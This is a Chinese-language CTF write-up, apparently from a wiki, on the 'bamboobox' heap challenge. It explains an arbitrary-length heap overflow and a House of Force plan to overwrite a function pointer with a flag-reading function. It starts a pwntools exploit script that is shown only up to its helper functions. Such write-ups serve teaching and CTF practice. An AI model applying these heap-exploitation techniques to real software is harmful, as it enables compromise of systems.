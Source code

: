 该程序是一个 64 位的动态链接程序。

### 基本功能

需要注意的是，该程序开始时即申请了 0x10 的内存，用来保留**两个函数指针**。

该程序大概就是对于盒子里的物品进行添加和删除

1. 展示盒子里的内容，依次盒子里每一个物品的名字。
2. 向盒子里添加物品，根据用户输入的大小来为每一个物品申请对应的内存，作为其存储名字的空间。但是需要注意的是，这里读取名字使用的是 `read` 函数，读取长度的参数是用户输入的 v2，而 read 的第三个参数是无符号整数，如果我们输入负数，就可以读取任意长度。但是我们需要确保该数值满足`REQUEST_OUT_OF_RANGE` 的约束，所以这里存在**任意长度堆溢出**的漏洞。但即使这样，第一次的时候也比较难以利用，因为初始时候堆的 top chunk 的大小一般是不会很大的。
3. 修改物品的名字，根据给定的索引，以及大小，向指定索引的物品中读取指定长度名字。这里长度由用户来读入，也存在**任意长度堆溢出**的漏洞。
4. 删除物品，将对应物品的名字的大小置为0，并将对应的 content 置为 NULL。

此外，由于该程序主要是一个演示程序，所以程序中有一个 magic 函数，可以直接读取 flag。

### 利用

由于程序中有个 magic 函数，所以我们的核心目的是覆盖某个指针为 magic 函数的指针。这里，程序在开始的时候申请了一块内存来存储两个函数指针，hello_message用于程序开始时使用，goodbye_message 用于在程序结束时使用，所以我们可以利用覆盖 goodbye_message 来控制程序执行流。具体思路如下

1. 添加物品，利用堆溢出漏洞覆盖 top chunk 的大小为 -1，即 64 位最大值。
2. 利用 house of force 技巧，分配 chunk 至堆的基地址。
3. 覆盖 goodbye_message 为magic 函数地址来控制程序执行流

**这里需要注意的是，在触发top chunk 转移到指定位置时，所使用的大小应该合适，以便于设置新的 top chunk 大小，从而可以绕过下一次分配top chunk 的检测。**

exp 如下

```shell
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./bamboobox')
context.log_level = 'debug'


def additem(length, name):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def modify(idx, length, name):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def remove(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


```